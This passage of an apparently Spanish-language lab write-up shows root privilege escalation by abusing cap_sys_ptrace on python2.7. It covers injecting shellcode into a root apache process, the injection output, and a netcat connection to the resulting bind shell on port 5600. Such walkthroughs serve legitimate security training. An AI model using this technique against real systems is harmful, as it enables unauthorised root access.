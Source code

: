 
- Nos aprovecharemos en este caso de la capabilitie abjudicada a `python2.7`, la cual es "cap_sys_ptrace+ep", si consultamos a ChatGPT en que consiste esta capabilitie obtenemos lo siguiente:

```js
La capacidad "cap_sys_ptrace" es una capacidad del kernel de Linux que permite a un proceso depurar y trazar otros procesos en el sistema. Con esta capacidad, un proceso puede acceder a la memoria, registros y otros recursos de otro proceso en el sistema, lo que puede ser útil para la depuración y el análisis de programas.
```

- Así que podemos hacer trazas de ciertos programas usando python, esto suena interesante; si buscamos vulnerabilidades para esto encontramos lo siguiente: [Linux Capabilities - Cap_sys_ptrace](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_ptrace)

- Vemos que hay una forma de inyectar una `shellcode` con python para que por bajo nivel nos abra el puerto `5600` y podamos acceder a este con netcat desde nuestra máquina atacante.

- Copiamos el código y lo pegamos en un archivo "pwned.py"

- Al ejecutarlo nos pide como argumendo un `"PID"`, en este caso, buscamos algún programa que se esté ejecutando como root:

```bash
$ps faux | grep "root"
```

- Encontramos el servicio de apache que está ejecutado por root, copiamos su PID y lo ejecutamos con la script "pwned":

```bash
$python2.7 pwned.py 1057
```

```js
Instruction Pointer: 0x7fda48f770daL
Injecting Shellcode at: 0x7fda48f770daL
Shellcode Injected!!
Final Instruction Pointer: 0x7fda48f770dcL
```

- Ahora si nos conectamos con Netcat desde nuestra máquina atacante apuntando al puerto 5600 de la máquina víctima veremos como se establece la conexión y seremos `root`.

```bash
$nc 192.168.0.106 5600
```

